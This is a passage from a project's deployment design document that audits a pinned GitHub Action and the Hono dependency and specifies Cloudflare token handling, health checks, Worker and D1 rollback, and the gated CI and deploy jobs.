| `mikepenz/action-junit-report` | v6.5.0 | `a9170d5795813c01ab4901ffb045b52bab4ab09d` | commit 2026-08-27 (signature verified by GitHub), release 2026-08-28 (47 days at the audit, 2026-10-14) | reads JUnit XML files and publishes a check run (and a job summary) with the counts and failure annotations | the "Test Report" step of #289 | Audited 2026-10-14 by reading `action.yml`, `src/main.ts`, `src/annotator.ts`, `src/testParser.ts` and `package.json` at that SHA [V]. Maintainer: the individual account `mikepenz` (no organisation, a single maintainer); repository created 2021-01-17, about 429 stars, 156 forks, Apache-2.0, not archived, releases about monthly (v6.0.0 2025-11 to v6.6.1 2026-10-08) [V gh api]. Runs on `node24`, `dist/index.js` is a bundled build. Token: input `token`, default `github.token`; it calls only `checks.create` (needs `checks: write`) and, when `comment: true` or `update_check`, the issues/checks APIs: with `comment: false` (set) no `pull-requests: write` is needed. Network: the source performs no request other than the GitHub API through `@actions/github` (`octokit`); the only other code path is local `fs` and `glob` reads of the report file. A grep of the bundle for URLs finds only `api.github.com` as an endpoint (the rest are spec links in comments of the bundled undici/octokit libraries) [V]. No `child_process` use in `src/`. Failure mode: a missing `checks: write` (fork PR) is only logged as an error, it does not fail the step; `require_tests` fails before any check is created. Version choice: v6.6.1 (2026-10-08) and v6.6.0 (2026-10-05) are younger than two weeks, so v6.5.0 is pinned. Not verified [R]: that the committed `dist/index.js` is exactly the build of `src/` (a bundle of about 1.9 MB was not reviewed line by line, the usual residual risk of any JavaScript action); mitigation: the action never sees a secret other than the job's `GITHUB_TOKEN`, with `contents: read` and `checks: write` only. |

Version choice notes:

- `actions/setup-node` v7.1.0 exists (2026-10-08) but is 3 days old: excluded by the two-week rule. v7.0.0 is pinned.
- `actions/checkout` v7.0.1 is the newest release; the older majors (v6.1.0, v5.1.0 ...) were re-released the same day as maintenance backports, not relevant.
- Both actions are published by GitHub itself (`actions/` organisation) [V]. The SHAs may also be re-checked by a reviewer: `gh api repos/actions/checkout/git/ref/tags/v7.0.1` must give the SHA above, and `gh api repos/actions/setup-node/git/ref/tags/v7.0.0` the second.
- A pin to a SHA can only be as trustworthy as the maintainers' repository at that commit; the audit notes above cover the action's inputs and token handling, not a line-by-line source review [R: the `dist/` bundles were not reviewed line by line].

**Updating pins** [P]: by hand, one small PR per action ("chore(ci): bump actions/checkout to vX.Y.Z"), re-doing the audit (tag -> SHA, age >= 2 weeks, `action.yml` diff for new inputs or token use) and updating this table in the same PR. No auto-merge bot. Proposal [P]: enable Dependabot version updates for the `github-actions` ecosystem (it opens PRs only, never merges, and gives visibility of new releases and advisories for hand-bumped SHA pins); every such PR gets the same audit and the reviewer re-resolves the SHA. The owner decides whether to enable it. Dependabot would also propose cooldown-less bumps younger than two weeks, so the two-week rule is checked by the reviewer, not by the tool.

**Why plain `pnpm exec wrangler` and not `cloudflare/wrangler-action`** [P, recommendation to confirm in the PR review]:

- wrangler is already a devDependency, and its version is fixed by `pnpm-lock.yaml` (4.149.0 at the time of writing) [V worker/package.json, pnpm-lock.yaml]: no new dependency, and the same version runs locally, in CI and in smoke tests.
- The action is one more third party that would receive the deploy token as an input (Cloudflare's own example passes `apiToken` and `accountId` to it [V https://developers.cloudflare.com/workers/ci-cd/external-cicd/github-actions/]) and, as far as that page shows, adds nothing that `pnpm exec wrangler deploy` cannot do. Its internal behaviour was not audited [R].
- We need custom steps (runner-local config, Time Travel bookmark, lint gate, health check) that the action does not provide anyway.
- `pnpm install --frozen-lockfile --ignore-scripts` (the lockfile) would run install scripts of wrangler's dependencies; in the token jobs it is `pnpm install --frozen-lockfile --ignore-scripts` and that step has no secrets in its environment (section 4.2).

### Runtime dependency: Hono (#234)

Owner-approved option B in [#349](https://github.com/kolenkainc/cowlic/issues/349#issuecomment-6232548947), following
the [#338 design](https://github.com/kolenkainc/cowlic/issues/338#issuecomment-6198532244). Rechecked 2026-10-17:

| Check | Result |
| --- | --- |
| Exact version | `hono` **4.13.12**, published 2026-09-30 09:43 UTC (17 days old); package and lockfile pinned, no upgrade |
| License / maintainer | MIT; npm lists one maintainer account, `yusukebe` |
| Runtime / peer dependencies | None (`npm view` metadata and `npm ls hono --all`) |
| Install lifecycle scripts | No preinstall/install/postinstall/prepare; installation uses `--ignore-scripts` |
| Package provenance | npm metadata supplies SLSA provenance and registry signature; not an independent line-by-line audit |
| Integrity | `sha512-6E2QDAc9Ick9Sq77ZrGS/dk2WUYni91aufTw6LJKpV7w8kW5/GxVUc650FOADOmlwg3K+f7Pun6XlV+pYmW6gw==` |
| Package size | 571 files, 1,287,796 unpacked bytes; final bundled size is recorded in the implementation PR |
| Current advisories | GitHub advisory query `ecosystem=npm&affects=hono@4.13.12` returned zero; npm installation audit reported zero vulnerabilities |
| Used surface | Only `hono/tiny` at runtime; `hono` Context import is type-only. No logger, CORS, JWT, JSX, body/query parser or adapter import |

Sources: [npm version metadata](https://www.npmjs.com/package/hono/v/4.13.12),
[GitHub security advisories](https://github.com/honojs/hono/security/advisories), and the installed package manifest.
The earlier 43 historical advisories in #338 describe maintenance cost, not 43 vulnerabilities in this pin. Current
audit results are a dated observation, not a promise about future findings. Keep the exact pin and require a fresh
audit for any bump; re-audit before adopting Hono 5. The runtime executes with Worker bindings/secrets, so a compromised
release remains a supply-chain risk despite zero transitive dependencies and disabled install scripts.

Compatibility details: PatternRouter's optional trailing slash and Hono's decoded default pathname are constrained
to the previous strict raw-path contract. Authentication and dispatch share one pattern instead of the design's
broader `/rest/*` sketch, preserving 404-before-auth for malformed paths. A small HEAD adapter routes internally as
GET while passing the original HEAD Request to every application handler; this preserves direct-fetch body bytes
and Telegram's upstream HEAD, while the HTTP runtime still removes HEAD bodies. Errors are logged by class once and
rethrow unchanged; Hono's default error logger is replaced. The pre-change golden fixture must pass without updates.

## 7. Cloudflare token: the existing owner token

Owner decision (2026-10-11): no separate scoped token is created; the pipeline uses the owner's existing Cloudflare API token, stored as the environment secret `CLOUDFLARE_API_TOKEN` (section 3, rules 1, 2, 9, 10). Consequences for this document:

- The token's permissions are unknown to the author [R]. Whether it covers what the pipeline needs (Workers Scripts edit for `wrangler deploy`, D1 edit for `d1 migrations list/apply --remote` and `d1 time-travel info`) is not verified; the owner's local manual deploys and the hand-applied migration 0002 (#122) suggest it does [R]. If the first run reports a missing permission, the owner adds exactly that one to the existing token (the permission groups are listed at https://developers.cloudflare.com/fundamentals/api/reference/permissions/ [V]) and comments which one on #199.
- The pipeline depends on nothing else about the token. `CLOUDFLARE_ACCOUNT_ID` is passed explicitly so that wrangler does not have to look the account up [P].
- Reducing the scope later (a dedicated token with Workers Scripts: Edit and D1: Edit on one account) stays possible without any change to the workflows, because only the secret value changes. This is noted as a fact, not as a request.
- Everything that limits the damage of this token is therefore in the other controls: environment-only secret, master-only deployment policy, no secrets for PR builds, two pinned actions, no third party sees the token, `pnpm install --frozen-lockfile --ignore-scripts` in a step without secrets, no verbose logs, rotation and recovery (section 3).

## 8. Health check design

- Call: `GET <public worker URL>/rest/ping?f=json` WITHOUT credentials [P]. Without `f=json` the Worker answers XML by default [V worker/scripts/smoke.mjs, "XML response by default" check], so the check sends `f=json` to match a stable JSON body.
- Expected: HTTP 200 and `subsonic-response.status == "failed"` with `error.code == 40` [V worker/src/index.ts: unauthenticated requests get `fail(params, 40, "Wrong username or password")` before any route is reached; the smoke test checks `error.code === 40` for a bad token]. Retry budget about 5 tries with a short sleep (the new version may take seconds to propagate) [P]. The proposal is a small `node` script using `fetch` (no new dependency); the URL comes from the masked `WORKER_URL` (section 4.3) [P].
- **What it proves:** a Worker version is deployed and reachable on the public URL; the script starts without crashing at load; the router and the Subsonic envelope code run; the `/rest/` route exists [V code].
- **What it does NOT prove:** D1 connectivity or that migrations are compatible (`ping` returns before any D1 query: `authenticate` fails first [V worker/src/index.ts]); the Subsonic credentials; Telegram. Worse, error 40 is also what the Worker returns when the Worker secrets are MISSING, because authentication fails closed [V worker/src/auth.ts "Fail closed if secrets are not configured"], so a deploy that lost the secrets would still pass. The credentials are deliberately NOT given to GitHub [V #196, #199], so a deeper check is not possible with `/rest/ping`.
- **Option to decide (not ticketed): a tiny unauthenticated `GET /health`** that runs `SELECT 1` on `DB` and returns `{"ok":true}` [P]. Pros: proves D1 binding and the migrated database answer. Cons: a code change in `worker/src/`, a new unauthenticated surface (it must return no data, no error text, no version), and it still does not prove the secrets. Recommendation: not now; accept the documented limitation, revisit if a migration ever breaks D1 access after a deploy. If chosen, it gets its own ticket and the health step switches to it; the smoke test would also need a case [P].

## 9. Rollback

Order [P]: roll back the Worker first (cheap, instant, reversible), and restore the database only if data or schema is damaged, because a restore also discards every row written after the bookmark (ingest runs on the owner's machine and writes library rows to D1; after a restore re-run ingest; whether ingest is idempotent over lost rows must be checked before relying on it [R]).

### 9.1 Worker

- Find versions: `pnpm exec wrangler deployments list` / `pnpm exec wrangler versions list` (10 most recent; `--json` available) [V https://developers.cloudflare.com/workers/wrangler/commands/workers/]. The deploy job writes the version id it deployed to the summary; since #267 it also records the previous active version id before deploy, using `deployments list --json` with a 30-second timeout. Only a validated UUID from the newest single-version 100-percent deployment is accepted; an API or parse failure, tied timestamps or a split yields `unknown` without failing the deploy. The failure summary uses the known id in the rollback command. The runbook ([worker-deploy-runbook.md](worker-deploy-runbook.md) section 4) gives the manual fallback [V workflow].
- Roll back: `pnpm exec wrangler rollback [<VERSION_ID>] --message "<reason>" -c wrangler.local.toml` from `worker/` on the owner's machine. Without `VERSION_ID` it goes to the 100 percent version of the previous deployment [V wrangler source]; "A rollback will immediately create a new deployment with the specified version" for all routes and domains; `--message` is only the default of the message prompt: in the pinned wrangler 4.149.0 the owner still answers the message and the confirmation prompt interactively (they take their defaults only in a non-interactive shell or with `CI` set) [V commands page; behaviour V wrangler source]. No `--yes` flag is listed on that page [V], the pinned wrangler 4.149.0 lists `--yes`/`-y` for `rollback` in its help, but the handler never reads it (it changes nothing) [V worker/node_modules source, 2026-10-11].
- Limits [V https://developers.cloudflare.com/workers/configuration/versions-and-deployments/rollbacks/]: only the 100 most recent versions; "Resources connected to your Worker will not be changed during a rollback" (so D1 data and schema stay as they are); blocked after Durable Object lifecycle changes or when a target binds a deleted R2/KV/queue (we use none: [V worker/wrangler.toml has only D1]). Whether secrets are kept or reverted is not stated there [R]: after a rollback, check that the Subsonic login still works.
- The rollback is a production change: agents cannot run it from their shell (policy). Owner only, or a future manual `workflow_dispatch` input [P, not planned].

### 9.2 Database

- The bookmark from the job summary (taken before `migrations apply`) is the recovery point. Restore: `pnpm exec wrangler d1 time-travel restore cowlic --bookmark=<BOOKMARK> -c wrangler.local.toml` [V syntax https://developers.cloudflare.com/d1/reference/time-travel/]. It "overwrites the database in place", cancels in-flight queries, prompts `OK to proceed (y/N)`, and prints a bookmark of the state before the restore with the command to undo it [V]. The account is on Free (owner statement, #331, 2026-10-15), so a bookmark older than 7 days is invalid [R, documented limit, not tested against the account; 30 days on Paid].
- If the summary has no bookmark (it should not happen: fail closed), `time-travel info <DB> --timestamp=<RFC3339>` gives a bookmark for a past time within retention [V].
- For a small additive mistake, the rollback statements kept as comments in the migration file (like 0002's `DROP INDEX IF EXISTS ...`) are cheaper than a restore [V 0002]; a statement that drops something is destructive and follows the manual-change conditions of worker-deploy-runbook.md section 5.2; they are run by the owner with `wrangler d1 execute cowlic --remote --command ... -c wrangler.local.toml` (flags `--command`, `--file`, `--remote`, `--yes` exist [V https://developers.cloudflare.com/d1/wrangler-commands/]). After running them, the row in `d1_migrations` still marks the migration as applied [R]: write a new migration instead of re-applying.
- Restore is done locally by the owner with the owner's own token (the same token that the pipeline uses; whether it permits `time-travel` is [R], section 7).

## 10. Owner decisions (the owner confirms them in #199; defaults recommended here)

1. **Approval policy of environment `production`.**
   - Options: (a) no required reviewers, deployment branches restricted to master; (b) the owner as required reviewer (one click per deploy).
   - **Recommended: (a), conditional on decision 3 (the master ruleset).** The owner wants it automatic. The protection then is: master reachable only through a pull request with green `changes`, `lint` and `tests` (only true if the ruleset of decision 3 exists: today it does not, section 3 rule 11), the independent review by convention (`review-completed`), the branch restriction means no other ref can read the secrets, and migrations that would destroy data wait for approval in any case. Without decision 3, (a) means that any push by anyone with write access deploys to production with the broad token.
   - Trade-off: anything merged to master reaches production within minutes, including a bad change that review missed; the mitigations are rollback (section 9), Time Travel and the health check. (b) adds a human stop for every deploy, at the cost of one click each time and an owner-availability dependency.
   - Destructive migrations ALWAYS need the owner's manual approval via the second environment `production-destructive`: branches `master` (selected-branches policy, exact branch), the owner as required reviewer, the same three secrets (token, account id, D1 id). **Recommended and fixed: confirmed as in the ticket.** A note [R]: GitHub's "prevent self-review" option on the environment, if the owner is also the actor, may block the owner's approval; leave it off.
2. **Trigger.**
   - Options: (a) every push to master that changes `worker/**` plus `workflow_dispatch`; (b) only release tags (more control, one extra manual step per release).
   - **Recommended: (a)** [P]. The path filter means docs-only and ingest-only merges do not deploy. The deploy workflow's own file is deliberately not in the filter (a workflow edit alone must not redeploy; the owner can use `workflow_dispatch`). `workflow_dispatch` runs only from master (`if:` on the ref and the environment branch rule).
   - Trade-off of (a): no pause between merge and production; of (b): releases can lag and master and production drift.
3. **Repository ruleset for master (new, needed by decision 1).** Options: (a) a ruleset requiring a pull request and the status checks `changes`, `lint` and `tests` (#307; first the single check `ci`), 0 required approvals, direct pushes blocked; (b) no ruleset, the owner accepts in writing that any push to master is a production deploy. **Recommended: (a)**, with 0 approvals because the label-based flow has no human approver (the owner is not an approver, decision of 2026-10-10) and a required approval would block it. Trade-off: the required check makes a broken or slow CI block every merge (the owner can bypass in an emergency); the agent flow stays the same: PR, green check, `review-completed`, `gh pr merge --squash`. The ruleset is a repository setting: the owner makes it (agents do not change repo settings), after #200 has made the check exist (a required check that never ran blocks merging).
4. **Token and secrets on GitHub (owner decision 2026-10-11, recorded):** no new scoped token; the existing Cloudflare token is stored as the environment secret `CLOUDFLARE_API_TOKEN` in `production` and `production-destructive` only; no repository-level or organisation-level secret exists (section 3). Environments: selected branch `master` only.

## 11. Names

Names only, never values. Final names (used by every later ticket; #199 and #201 follow them):

| Name | Kind | Where | Used by | Notes |
| --- | --- | --- | --- | --- |
| `CLOUDFLARE_API_TOKEN` | environment secret | `production`, `production-destructive` | `env:` of the wrangler steps only | the owner's EXISTING token (decision 2026-10-11), same value as in the local `.env`; rotation touches both places |
| `CLOUDFLARE_ACCOUNT_ID` | environment secret | both | wrangler step `env:` (same name wrangler reads) | no file needed |
| `D1_DATABASE_ID` | environment secret | both | runner-local config step | validated, masked |
| `WORKER_URL` | environment secret | both (since #313) | health check and its masks | [P] new; see 4.3 and section 13 |
| label `destructive-migration-approved` | PR label | repo | `plan` job, CI gate | created by the planner |
| environments `production`, `production-destructive` | GitHub environments | repo | `ship` | branch policy `master` |

NO repository-level and NO organisation-level secret at all (not only none with these names: a repository secret reaches same-repo `pull_request` runs, section 3 rule 2). The Worker's own secrets (`TG_BOT_TOKEN`, `SUBSONIC_USER`, `SUBSONIC_PASSWORD`) never go to GitHub [V #199].

## 12. Workflow files and job graph

### 12.1 `ci.yml` (#200, merged with `version.yml` and `worker-ci.yml` by #290 part 1)

- Stages (jobs, all in `.github/workflows/ci.yml`, display name `CI`): `changes` (what changed), `lint` (typecheck, immutable migrations, migration lint), `tests` (migration lint tests and Vitest, with three report check runs), `version` (GitVersion, read-only), then `plan` and `ship` (section 12.2; folded in from `worker-deploy.yml` by #290 part 2, `migrate` and `deploy` merged into `ship` by #312) and `release`. Job id and name are the same for every job; the required contexts are `changes`, `lint` and `tests` (#307 removed the aggregating job `ci`: the real jobs are required directly, the owner's decision of 2026-10-14). Part 3 of #290 adds the release stage.
- Triggers: `pull_request` (types opened, synchronize, reopened, labeled, unlabeled), `push` to master and `merge_group` (checks_requested), NONE with a path or branch filter other than `push: branches: [master]`; no `pull_request_target`; no secrets; no `environment:` [V #200, #212, #290]. Why no filter: the master ruleset requires the checks `changes`, `lint` and `tests`, and a skipped workflow would leave a PR (or a queue entry) without them, so it could not merge. A docs-only push to master now also runs `ci.yml` (before, `worker-ci.yml` had a path filter on `push`); the heavy jobs are skipped by `changes`, so the cost is seconds. `labeled`/`unlabeled` stay because the destructive gate reads the labels at run time; the cost is one short run per label change on every PR.
- Skipping: the job `changes` (checkout with `fetch-depth: 0`, then the steps `Resolve base commit` and `Detect worker changes`) computes `worker_changed` (any file under `worker/` or `.github/`, or a root workspace input differs from the base: lint and tests run) (a manual dispatch sets it to true) and the resolved base SHA (for `workflow_dispatch`: the parent of the head), and exposes exactly these two as job outputs; the deploy decision is not made here but in `plan` (section 12.2). `lint` and `tests` have the job-level `if: needs.changes.outputs.worker_changed == 'true'`; a skipped job reports "skipped" and a skipped REQUIRED job counts as passed. Since #307 there is no aggregating job: the required checks are `changes`, `lint` and `tests` themselves. That is safe only because of three rules, all asserted by `.github/workflows/tests`: (1) `changes` is required, has no `if`, and fails closed (the validation step below), so lint and tests can be skipped only for a worker_changed that really was `false`; (2) `lint` and `tests` have NO condition but `worker_changed == 'true'` (none on the event or the ref), so they run on `pull_request`, `push` and `merge_group`; (3) a failed or cancelled required job is not a pass, so it blocks the merge. `plan` and `release` do not rely on the skip semantics: each names the results explicitly (section 12.2). `version` is not required and `plan` does not need it (a GitVersion problem on an unusual ref must not stall the merge queue or a deploy). Cancelled and superseded runs: a commit pushed to the PR (opened, reopened, synchronize) cancels the run in progress of that PR, which is harmless because its checks belong to the old commit; a label event (labeled, unlabeled) never cancels a run (`cancel-in-progress` is false for it), so the run that holds the required checks of the current commit is not cancelled by a label change: the label run waits in the group and then runs; a `merge_group` run has its own group (the run id) and is never cancelled or replaced. Fail closed: if the base cannot be resolved or the diff fails, `worker_changed` is `true` and the base-dependent steps fail their job [P; V #212]. #307: the last step of `changes`, `Validate outputs (fail closed)`, exits 1 unless `worker_changed` is exactly `true` or `false` and `base_sha` is 40 lowercase hex characters or empty (an empty base only together with `true`); the master ruleset requires `changes`, `lint` and `tests` directly, and a skipped required job counts as passed, so a green `changes` with an invalid output would otherwise skip lint and tests unchecked. The behaviour of the step and its mutations are tested in `.github/workflows/tests`.
- Merge queue (#292): the master ruleset gained a `merge_queue` rule (squash, grouping ALLGREEN) next to the required status checks, whose contexts are `changes`, `lint` and `tests` (since #307; before: the single context `ci`). The queue only proceeds when those three are reported on the `gh-readonly-queue/*` commit, and GitHub sends that commit a `merge_group` event (type `checks_requested`), not `pull_request` or `push` [V GitHub docs, managing a merge queue: "You must use the merge_group event to trigger your GitHub Actions workflow"]. Without the trigger the queue waits until its 60-minute timeout. So `ci.yml` has `merge_group: types: [checks_requested]` with no path filter; `changes` has no condition and always reports, and `lint` and `tests` report unless `changes` validated `worker_changed=false` (then they are skipped, which counts as passed). Base and head: `Resolve base commit` takes `github.event.merge_group.base_sha` as the base, and only when `github.event.merge_group.head_sha` is also present and equals the checked-out commit (`github.sha`); both are passed through `env:` and must be 40 lowercase hex characters and exist in the clone. Anything else leaves the base empty, so `worker_changed` is `true` and the base-dependent steps fail closed. There are no PR labels on `merge_group`, so the destructive gate is closed there: a destructive migration that passed on the PR with the label fails the queue run (by choice; the PR run already showed it). The jobs `plan` and `ship` never run on `merge_group` (the `if:` of `plan` names `workflow_dispatch` and `push` only, on master, in this repository; its guard also requires `refs/heads/master`), so nothing deploys from the queue; the queue's squash commit is an ordinary push to master and the step "Anything to deploy" in `plan` (`worker/` differs from what is live) starts the deploy (a docs-only or workflow-only change deploys nothing). `.github/workflows/tests/workflow.test.mjs` asserts the exact condition. Whether the merge_group run uses the workflow file of the merge-group commit (so that the PR adding the trigger bootstraps itself) is expected, not verified: observe on the first run; if the queue stalls on that PR, the owner merges it directly. `version` is not a required check; it now runs on `merge_group` too (#290 part 1).
- `permissions: contents: read`; `concurrency: group: ${{ github.ref == 'refs/heads/master' && (github.event_name == 'push' || github.event_name == 'workflow_dispatch') && 'worker-deploy' || format('ci-{0}-{1}', github.event_name, github.event_name == 'pull_request' && github.ref || github.run_id) }}`, `cancel-in-progress: ${{ github.event_name == 'pull_request' && contains(fromJSON('["opened","reopened","synchronize"]'), github.event.action) }}`: only a run superseded by a new PR commit is cancelled while in progress; a label event, a push to master, a dispatch and a queue run never cancel a run in progress. GitHub still replaces an older PENDING run of a group by a newer pending one even with `cancel-in-progress: false` (for push runs of master that is wanted and safe, see rule 5 of section 3) [P].
- Jobs `lint` and `tests` on `ubuntu-latest`, `timeout-minutes` set [P]; each: checkout (`persist-credentials: false`, `fetch-depth: 0` so that `origin/master` and the base commit exist: the default depth 1 has no `origin/master`, so the lint of #198 would exit 2 and the check would be permanently red [V checkout action.yml default `fetch-depth: 1`; PR #205 exits 2 when the base is missing]), setup-node (22, no cache), then in `worker/`: `pnpm install --frozen-lockfile --ignore-scripts`. `lint`: `pnpm exec tsc --noEmit`; the immutability check of rule 5a (fails when a migration present in the base is modified, renamed or deleted); migration lint (#198) on migrations added against the base (the base SHA from `changes`, passed through `env:`). `tests`: the node:test lint tests with their report; then the independent workflow package and Worker `pnpm exec vitest run`, each with its own JUnit report (section 12.3 describes the smoke part, which is a Vitest project since #285). The job `version` (ubuntu-24.04, exact GitVersion.Tool 6.8.2, `fetch-depth: 0`) is unchanged from the old `version.yml` and now also runs on `merge_group`; whether GitVersion handles the `gh-readonly-queue/*` ref is observed on the first queue run, not verified here.
- The linter's own tests (`worker/scripts/lint-migrations.test.mjs`, node:test, no dependency) run in the job `tests` as the step "Migration lint tests" (#286, reworked by #289): `node --test` with two reporters, spec to stdout (the log) and junit to `$RUNNER_TEMP/lint-tests.xml` (not committed, not uploaded). The node exit code fails the job on a failing test. No text of the output is parsed.
- "Test Report" (#289): the step right after it uses `mikepenz/action-junit-report` (pinned by SHA, audit in section 6) to publish the XML as an extra check run named "Test Report" with the counts. Options: `fail_on_failure`, `fail_on_parse_error` and `require_tests` on, `comment` off. Permissions: `checks: write` at the job level of `tests` only (no `pull-requests: write`); the job also keeps `contents: read`. The step runs after a failed test step, but not when that step was skipped (no XML) and not on a cancelled run. Fork PRs: the token is read-only, so the check run cannot be created; the action only logs that, and `continue-on-error` is set for fork PRs on this step, so a missing permission never fails `tests`; a real test failure still fails `tests`, a required check, through the exit code of the test step. The step uses no PR context: on `push` and `merge_group` the check run is attached to `github.sha`, and the fork expression (`github.event.pull_request.head.repo.fork == true`) is false there, so a report failure fails `tests` as on a same-repo PR.
- Relation to the deploy gate and the ruleset: "Test Report" is an additional check, NOT part of the master ruleset (the required contexts are `changes`, `lint` and `tests`), and neither the deploy conditions (#287, #307) nor the deploy jobs read it: they `need` the jobs `changes`, `lint` and `tests` of the same run.
- "Minimum test count": node:test counts a file that registers nothing as ONE passing test, and `require_tests` only demands more than zero, so an import-only file would pass. The step after the report compares the numeric `passed` output of the report action with a pinned floor (`MIN_TESTS`, 60 against 69 real ones; skipped, todo and cancelled tests are not counted as passed). The floor is changed deliberately when tests are added or removed. The action has no option for a minimum count, which is why this check stays (a number comparison, no parsing). It also covers fork PRs, where the report step ignores its own failure.
- Vitest (#285, separated by #381): Worker `pnpm test` runs only `unit` (stubbed D1/Telegram and actual Hono middleware) and `smoke` (real local D1/workerd, migrated and legacy synthetic schemas, local Telegram stub). Workflow checks under `.github/workflows/tests/` have their own package manifest and configuration, sharing the repository-root pnpm lockfile; install from the root with `pnpm install --frozen-lockfile --ignore-scripts`, run `pnpm --filter cowlic-workflow-tests --fail-if-no-match test`. Worker dependencies are not required by that suite. Its checks execute actual CI run blocks with fake commands/temp git repositories, compare gates with independent oracles, and verify permissions, pins, secret boundaries, concurrency and migration/deploy/release behavior with hostile mutations. The retained invariant and deletion map is in [the package README](../.github/workflows/tests/README.md).
- The existing `Test Report (Vitest)` now reports only Worker tests; `Test Report (Workflows)` reports the independent workflow suite using the same audited action/options. The required job remains `tests`. Each runner fails on test failure, zero collection or committed `.only`; each report requires tests and rejects failures/invalid XML. Separate minimum-count steps validate both numeric outputs, forbid skips and enforce deliberately pinned floors: Worker 315 against 320 real checks; workflow 495 against 521. Report steps may tolerate fork-token publication failures, but runner exits and count guards still fail the required job. Migration lint remains node:test with its own existing report and floor 60 against 69. No production secret is available to these install/test steps.
- Destructive gate: if the lint reports destructive statements, the job fails unless the PR carries the label `destructive-migration-approved` (read from `github.event.pull_request.labels.*.name` in an `if:`/`env:` boolean, not from text spliced into a script) [P; V #200]. A `push` run to master lints and checks immutability against the previous head (`github.event.before`) and is a regression net; it has no label, so a destructive migration would fail there.

Hono application test structure, native helpers and local commands: [worker-testing.md](worker-testing.md).

### 12.2 Deploy jobs `plan` and `ship` of `ci.yml` (#201, extended by #202; were `worker-deploy.yml` until #290 part 2; `ship` = the former `migrate` and `deploy` since #312)

Part 2 of #290 moved the jobs unchanged in logic (every run block is the old text) into `ci.yml` and deleted `worker-deploy.yml`. What changed: `plan` has `needs: [changes, lint, tests]` and the job-level `if:` (`!cancelled()`; since #307, which removed the aggregating job `ci`, the results of the same run named explicitly: `changes` succeeded AND EITHER `worker_changed == 'true'` with `lint` and `tests` both succeeded, OR `worker_changed == 'false'` (the docs-only case) with `lint` and `tests` each succeeded or skipped; a missing or invalid `worker_changed`, a failed, cancelled or skipped need matches nothing; this repository, master ref, `push` or `workflow_dispatch`; `.github/workflows/tests/gate.mjs` evaluates the condition over every combination against an independent decision list and checks the property "no combination deploys unless `changes` succeeded and lint and tests passed in that run, except docs-only"); the old `push` path filter `worker/**` is replaced by ONE added step in `plan`, "Anything to deploy (worker/ since BASE)", whose result is the job output `deploy` (guard AND scope): a `git diff --quiet BASE sha -- worker/`, always deploy for a dispatch, a git failure deploys, nothing to deploy gives a visible green skip with a summary line; the group `worker-deploy` is the workflow-level group of push and dispatch runs (rule 5 of section 3). Trade-off: a docs-only push that follows a worker/ push whose run was replaced while pending deploys that worker/ change although its own lint and tests were skipped in the docs-only run (the condition of `plan` allows a skip when nothing relevant changed in THAT run); the commit passed the required `changes`, `lint` and `tests` on its PR and in the merge queue (by design, also when that older commit's own master push checks failed, e.g. a flaky test: the decision compares `worker/` with what is live). Since #312 a failed `ship` (a failed deploy or health check, also after a successful migration) writes no success record, so BASE stays on the older commit; the recovery is a `workflow_dispatch` of CI on master (which deploys whatever the state), and the next push compares `worker/` with the older BASE and deploys again. Below, "the workflow" means these jobs.

Triggers (of `ci.yml`): `push` to master (no path filter; whether there is anything to deploy is decided in `plan` against what is live, a docs-only or workflow-only change deploys nothing) and `workflow_dispatch` (master only, no inputs). `permissions: contents: read`. Concurrency: the workflow-level group `worker-deploy`, `cancel-in-progress: false` for push and dispatch runs of master (section 3 rule 5).

| Job | Environment | Secrets | Needs | What it does |
| --- | --- | --- | --- | --- |
| `plan` | none | none; `pull-requests: read`, `deployments: read` [R] | `changes`, `lint`, `tests` | checkout with `fetch-depth: 0` (otherwise `github.event.before` and `origin/master` do not exist in a shallow clone); verify `github.sha` is master head; compute the BASE commit (below); lint the migrations added in `BASE..github.sha`; ask the API which PR each such commit came from (`gh api repos/<repo>/commits/<sha>/pulls`, default `GITHUB_TOKEN`; mapping a squash-merge commit to its PR with this endpoint is [R]) and whether it has the label; output `environment` = `production` or `production-destructive`, or fail (destructive without label). |
| `ship` | `${{ needs.plan.outputs.environment }}` (`production` or `production-destructive`; the approval of the second one happens before the job starts) | the four env secrets | `plan` | one job, in this order (#312). Migrations: `pnpm install --frozen-lockfile --ignore-scripts` (no secrets); write runner-local config (section 4.2); `migrations list --remote`; if none: summary "no pending migrations" and the apply steps are skipped. Else: re-lint the pending files (defence in depth, fail on destructive unless the job is in `production-destructive` and runs the lint with `--approved`); `time-travel info --json` -> bookmark in summary (fail closed if missing); `migrations apply --remote`; verify nothing is pending; applied names in summary. Then the deploy: mask the Worker URL; `pnpm exec wrangler deploy -c wrangler.ci.toml`; read the version id; health check; summary with version id, git SHA and, on health failure, the rollback command. |
| `release` | none | none | `changes`, `lint`, `tests`, `version`, `plan`, `ship` | section 12.5 |

How `plan` computes BASE (the range of migrations to classify) [P]:

- Not `github.event.before`: if a pending run is replaced by a newer one (section 3 rule 5) or a run fails, the next run's `before..sha` would miss the migrations of the skipped run, which then could no longer be routed to `production-destructive` (the `migrate` re-lint would fail closed in `production`: safe but not legitimate).
- BASE = the commit of the most recent SUCCESSFUL deployment to EITHER environment, `production` or `production-destructive` (GitHub creates a deployment record for every job with `environment:`, so `ship` writes one per commit, in the environment `plan` chose: a destructive run leaves its record in `production-destructive`, and reading only `production` would not advance BASE after it, so the next run would classify the same migration again and ask for the approval again; #312). `plan` reads both listings (`gh api repos/<repo>/deployments?environment=<name>`, 30 newest each, with `created_at`), merges them newest first (ISO 8601 UTC, so a text sort is a time sort) and takes the first one whose latest status is `success`. A record with a malformed time, id or sha is ignored; a listing that cannot be read is skipped with a warning (an older BASE only makes more migrations count as new, never fewer). BASE moves when `ship` succeeds, not before: a `ship` that failed after a successful migration (for example the health check) writes no success record. Statuses are read with `deployments: read` on the `plan` job only; availability and field names are [R], #201 verifies; the `ship` job also writes its git SHA to the summary for humans, but a summary is not machine readable and is not used).
- If no successful deployment exists (the very first run) or the API call fails: use `github.event.before` for `push`; for `workflow_dispatch` (no `before`) use `origin/master^1`; if `origin/master` or the chosen base commit is missing from the clone the job FAILS CLOSED (it never lints "nothing" silently). The first run has no pending migrations (section 5.1 rule 5 [V]), so the fallback is harmless, and the job `ship` re-lints the pending files anyway (authoritative, fail closed in `production`).
- `workflow_dispatch` therefore lints `BASE..HEAD` of master like a push and reads the PR labels of the commits in that range the same way.
- For a destructive finding, `plan` finds the commit that added the file (`git log --diff-filter=A -- <file>` within the range) and checks the label on THAT commit's PR, so a label on an unrelated PR in the range does not authorise it [P].

Properties of BASE [P]:

